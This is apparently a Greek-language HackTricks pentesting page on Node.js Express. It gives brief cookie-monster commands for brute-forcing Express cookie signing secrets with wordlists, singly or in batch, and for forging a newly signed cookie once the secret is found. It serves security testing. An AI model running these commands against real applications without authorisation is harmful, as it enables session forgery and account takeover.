 # NodeJS Express

{{#include /banners/hacktricks-training.md}}

## Υπογραφή Cookie

Το εργαλείο [https://github.com/DigitalInterruption/cookie-monster](https://github.com/DigitalInterruption/cookie-monster) είναι μια χρησιμότητα για την αυτοματοποίηση της δοκιμής και της επαναϋπογραφής των μυστικών cookie του Express.js.

### Ενιαίο cookie με συγκεκριμένο όνομα
```bash
cookie-monster -c eyJmb28iOiJiYXIifQ== -s LVMVxSNPdU_G8S3mkjlShUD78s4 -n session
```
### Προσαρμοσμένη λίστα λέξεων
```bash
cookie-monster -c eyJmb28iOiJiYXIifQ== -s LVMVxSNPdU_G8S3mkjlShUD78s4 -w custom.lst
```
### Δοκιμή πολλαπλών cookies χρησιμοποιώντας τη λειτουργία παρτίδας
```bash
cookie-monster -b -f cookies.json
```
### Δοκιμή πολλαπλών cookies χρησιμοποιώντας λειτουργία batch με μια προσαρμοσμένη λίστα λέξεων
```bash
cookie-monster -b -f cookies.json -w custom.lst
```
### Encode and sign a new cookie

Αν γνωρίζετε το μυστικό, μπορείτε να υπογράψετε το cookie.
```bash
cookie-monster -e -f new_cookie.json -k secret
```
{{#include /banners/hacktricks-training.md}}
